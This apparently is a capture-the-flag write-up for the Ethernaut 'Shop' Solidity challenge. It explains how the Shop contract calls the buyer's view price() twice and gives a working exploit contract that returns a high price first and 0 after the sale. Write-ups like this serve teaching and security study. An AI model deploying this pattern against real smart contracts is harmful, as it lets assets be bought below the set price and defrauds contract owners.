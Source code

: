 +++
date = '2024-10-23T01:15:54+05:30'
draft = false
title = 'Shop'
categories=["Blockchain"]
series="Ethernaut"
tags=["Control Flow Manipulation"]
+++

# Writeup for Shop

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. Each challenge involves deploying a contract and exploiting its vulnerabilities. If you're new to Solidity and haven't deployed a smart contract before, you can learn how to do so using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

Can you get the item from the shop for less than the price asked?

Things that might help:

- Shop expects to be used from a Buyer
- Understanding restrictions of view functions

### Contract Explanation

If you understand the contract, you can move on to the [exploit](#exploit) part. If you're a beginner, please read the Contract Explanation to gain a better understanding of Solidity.

{{< collapsible "Click to view source contract" >}}

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}

```

{{< /collapsible>}}
The contract has two state variables named `price` and `isSold`. `price` is of type **uint256** and it is initialized to 100, while `isSold` is of type **bool**.

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price();
    }
}
```

The function `buy()` initializes the variable `_buyer` of type `Buyer` interface with `msg.sender`. It then checks if the price offered by the buyer is greater than or equal to the current price and if the item has not been sold yet. If both conditions are met, the item is marked as sold and the price is updated to the buyer's price.

### Exploit

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price();
    }
}
```

If we see the `buy()` function, in the if condition, it will check if the buyer's price is more than the current price or not. But the buyer's price is taken by making a call to the buyer. Once the conditions are satisfied, then it sets `isSold` to true and it sets the price by again making a call to the buyer.

So in our exploit contract, if we somehow return the price value `>100` for the first time it is called and if we return a value less than `<100` for the second time it is called, then our challenge will be solved.

But if we check the Buyer interface, we can find that `price()` is a view-only function, which means we cannot make any state changes in the `price()` function.

Once the if condition in `buy()` is satisfied, then `isSold` is set to true and then the price value is fetched from the buyer. Since `price()` function is a view function, we can check if `isSold` is true or false before returning the price. Based on that, we can write the exploit contract. Below is the exploit contract.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Ishop{
    function isSold() external view returns (bool);
    function buy()external;
}

contract ExploitShop{
    Ishop shop;
    constructor(address _addr){
        shop=Ishop(_addr);
    }

    function Exploit()public{
        shop.buy();
    }

    function price() external view returns(uint256){
        if(shop.isSold()){
            return 0;
        }
        return 101;
    }
}
```

If we see the `price()` function in our exploit contract, first it will check if the item is sold or not. If the item is sold, it will `return 0`, otherwise it will `return 101`.

Once we call the `Exploit()` function, our challenge will be solved.

### Key Takeaways

We should be careful when the logic in our contract is dependent on other contract calls. In this case, if the `price()` function is a `pure function` instead of a `view function`, then the function won't be able to read state variables from other contracts.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>

